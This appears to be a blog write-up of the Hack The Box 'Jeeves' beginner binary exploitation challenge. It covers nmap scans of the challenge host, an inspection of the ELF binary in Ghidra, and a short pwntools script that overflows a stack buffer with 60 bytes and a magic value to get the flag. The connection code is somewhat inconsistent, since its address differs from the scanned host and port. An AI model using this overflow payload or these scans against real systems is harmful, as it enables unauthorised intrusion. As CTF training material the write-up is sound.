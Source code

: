 ```yaml
---
layout: post
title:  "Jeeves-hackthebox:intro to binary exploitation"
image: ''
date:   2021-11-06 00:06:31
tags:
- hackthebox
- binary_exploitation
description: ''
categories:
- hackthebox 
---
```



## Given

```
host
165.227.225.205:31382

challenge description
How are you doing, sir?

some binary file
jeevs
```
I started by scanning the host
```
 nmap -Pn --min-rate 4500 --max-rtt-timeout 1500ms   165.227.225.205 -p- 
```


## analysing jeevs file 

file type
```
./jeeves: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
```

`strings` gives nothing intresting 


## jeeves data flow
```
jeeves run --> asks for name --> hello $name exits
```

## nmap output

```


Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 16:58 EET
Nmap scan report for 165.227.225.205
Host is up (0.17s latency).
Not shown: 65499 filtered ports, 35 closed ports
PORT      STATE SERVICE
31251/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 29.74 seconds


```


one port open

## analysing port:
```
 nmap -Pn -sC -sV 165.227.225.205 -p31251

```

output

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 17:00 EET
Nmap scan report for 165.227.225.205
Host is up (0.16s latency).

PORT      STATE SERVICE VERSION
31251/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Employee File Manager

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.50 seconds

```


Looking into jeeves page on port 31251
![](https://i.imgur.com/qHSg99V.png)



seems same binary is deployed there
lets try connectingto it with `nc`
![](https://i.imgur.com/tNgoUQK.png)



## further analysing binary with ghidra

we realise we need 60 x a to reach the var we want

![](https://i.imgur.com/TtA2Muk.png)

so I used pwn tools witn nc

```
from pwn import *

target = process("nc")
target.sendline("209.97.187.130 32259")

payload = "A"*60
payload += p64(0x1337bab3)

target.sendline(payload)
print (target.recvuntil("}"))
```

and we get the flag
![](https://i.imgur.com/kQxpVE8.png)


```
flag
 HTB{hidden}

```
#easy
#binary


